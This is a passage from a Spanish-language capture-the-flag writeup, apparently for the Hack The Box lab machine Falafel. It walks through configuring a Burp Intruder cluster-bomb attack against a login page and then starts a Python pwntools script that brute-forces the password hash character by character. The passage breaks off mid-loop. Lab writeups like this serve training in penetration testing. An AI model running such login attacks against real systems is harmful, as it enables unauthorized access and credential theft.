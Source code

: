     - cambiamos el payload type a Numbers
    - cambiamos el Number range en sequential From 1 To 5 con step de 1
    - sacamos el URL encode del final de la pagina

    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config set 1", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-payload1.png")
    ```

1. En el nodo Payloads, seleccionamos el Payload set numero 2
   
    - cambiamos el payload type a Brute forcer
    - cambiamos el Character set a `abcdefghijklmnopqrstuvwxyz` con un Min length de 1 y un Max length de 1
    - sacamos el URL encode del final de la pagina

    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config set 2", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-payload2.png")
    ```

1. En el nodo Options En el Grep - Match

    - damos al boton Clear
    - añadimos `Wrong identification`
    
    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config matcher", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-matcher.png")
    ```
    
1. Le damos al boton start attack

Aqui vemos que el resultado es un poco complicado pero se podria hacer de esta forma.

#### Cluster Bomb attack version Python {-}

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import pdb
import signal
import time
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://10.10.10.73/login.php"
s = r'abcdef0123456789'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p2 = log.progress("Password")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    password = ""

    for position in range(1, 40):
        for character in s:
```